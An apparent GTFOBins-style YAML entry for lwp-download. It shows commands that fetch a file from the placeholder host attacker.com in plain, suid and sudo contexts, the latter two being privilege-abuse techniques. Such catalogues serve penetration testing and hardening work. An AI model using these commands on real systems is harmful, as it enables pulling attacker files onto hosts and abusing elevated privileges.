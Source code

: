 ```yaml
---
description: Fetch a remote file via HTTP GET request.
functions:
  file-download:
    - code: |
        URL=http://attacker.com/file_to_get
        LFILE=file_to_save
        lwp-download $URL $LFILE
  suid:
    - code: |
        URL=http://attacker.com/file_to_get
        LFILE=file_to_save
        ./lwp-download $URL $LFILE
  sudo:
    - code: |
        URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        sudo lwp-download $URL $LFILE
---
```

